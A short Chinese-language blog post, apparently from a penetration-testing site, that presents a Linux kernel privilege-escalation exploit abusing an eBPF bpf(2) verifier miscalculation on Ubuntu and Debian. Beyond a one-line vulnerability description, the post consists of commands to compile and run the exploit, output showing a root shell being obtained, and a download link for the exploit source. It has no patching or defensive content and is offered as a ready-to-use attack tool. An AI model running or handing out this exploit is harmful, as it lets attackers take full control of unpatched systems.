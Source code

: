 ```yaml
---
title: "Ubuntu 提权 EXP"
date: 2018-03-30T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['exp','linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



该漏洞存在于 Linux 内核带有的 eBPF bpf(2) 系统调用中, 当用户提供恶意 BPF 程序使 eBPF 验证器模块产生计算错误, 导致任意内存读写问题.

<!--more-->

kernel 4.14 - 4.4

Only Ubuntu / Debian

```
$ gcc -o exp upstream44.c
$ chmod 777 exp
$ ./exp
task_struct = ffff8800789c1540
uidptr = fff88007c0cb6c4
spawning root shell
# whoami
root
```

[upstream44.zip](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/30/1522407731.zip)